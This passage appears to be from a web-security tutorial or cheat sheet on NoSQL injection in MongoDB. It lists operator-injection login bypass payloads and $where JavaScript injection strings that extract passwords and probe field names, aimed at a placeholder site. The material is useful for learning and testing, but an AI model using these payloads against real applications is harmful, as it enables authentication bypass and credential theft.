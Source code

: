 ```js
// Print all credentials in the database
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}

// Target a specific account
{"username":"peter","password":{"$ne":"invalid"}}

// Target a list of accounts
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}

// If you don't know the username
{"username":{"$regex":"admin*"},"password":{"$ne":"invalid"}}

// Using $regex
{"username":"admin","password":{"$regex":"^.*"}}

// This checks whether password begins with 'a'
{"username":"admin","password":{"$regex":"^a*"}}
```


## Exfiltrating data in MongoDB
In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's `$where` operator and `mapReduce()` function.

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
`https://insecure-website.com/user/lookup?username=admin`

This results in the following NoSQL query of the users collection:
```js
{"$where":"this.username == 'admin'"}
```
As the query uses the `$where` operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```http
admin' && this.password[0] == 'a' || 'a'=='b
OR
admin' && this.password[0] == 'a
# Use Burp Intruder (Cluster Bomb)
```
```http
# Check the Password length first
admin' && this.password.length < 10 || 'a'=='b
OR
admin' && this.password.length < 10
```


### Identifying field names
Because MongoDB handles semi-structured data that doesn't require a fixed schema, you may need to identify valid fields in the collection before you can extract data using JavaScript injection.

For example, to identify whether the MongoDB database contains a password field, you could submit the following payload:
```http
https://insecure-website.com/user/lookup?username=admin'+%26%26+this.password!%3d'
```
Send the payload again for an existing field and for a field that doesn't exist. In this example, you know that the username field exists, so you could send the following payloads:
```http
admin' && this.username!=' admin' && this.foo!='
```
If the *password field exists*, you'd expect the response to be identical to the response for the existing field (username), but different to the response for the field that *doesn't exist (foo)*.

